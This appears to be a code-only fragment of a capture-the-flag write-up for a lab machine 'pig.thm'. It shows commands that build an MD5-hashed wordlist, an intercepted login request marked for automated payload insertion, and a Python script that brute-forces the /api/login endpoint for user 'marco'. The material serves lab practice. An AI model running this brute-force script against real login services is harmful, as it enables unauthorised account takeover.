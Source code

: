 ```bash
python3 words.py > wordsl.txt
```

```bash
tail -n 6 wordsl.txt
plane94$
plane95$
plane96$
plane97$
plane98$
plane99$
```

```bash
while read -r line; do printf %s "$line" | md5sum | cut -f1 -d' '; done < wordsl.txt | tee -a wordsh.txt ls > este
```

```bash
tail -n 3 este
b6ebbbe33a4580cca6c870c770fa36c4
6375c114ae25223dd775f057d5a130ec
89d6fc4ce85359185258f8b6aecd9a92
```







```bash
POST /api/login HTTP/1.1
Host: pig.thm
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://pig.thm/login.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Origin: http://pig.thm
Connection: keep-alive
Priority: u=0

{"username":"marco","password":"§5f4dcc3b5aa765d61d8327deb882cf99§"}
```


```bash
#!/usr/bin/python
import requests
import hashlib

user = 'marco'
url = 'http://10.201.86.29/api/login'
headers = {'Accept': 'application/json'}
f = open('password','r')
for line in f.readlines():
        line = line.strip()
        result = hashlib.md5(line.encode()).digest().hex()
        print("Trying : " + result,end='\r',flush=True)
        data = { 'username':user,
                 'password':result}

        r = requests.post(url=url,json=data,headers=headers,proxies={'http':'127.0.0.1:8080'})
        if 'Incorrect Username or Password' not in r.text:
                print("\nPassword Found for "+user + ':'  + line)
                exit(0)

```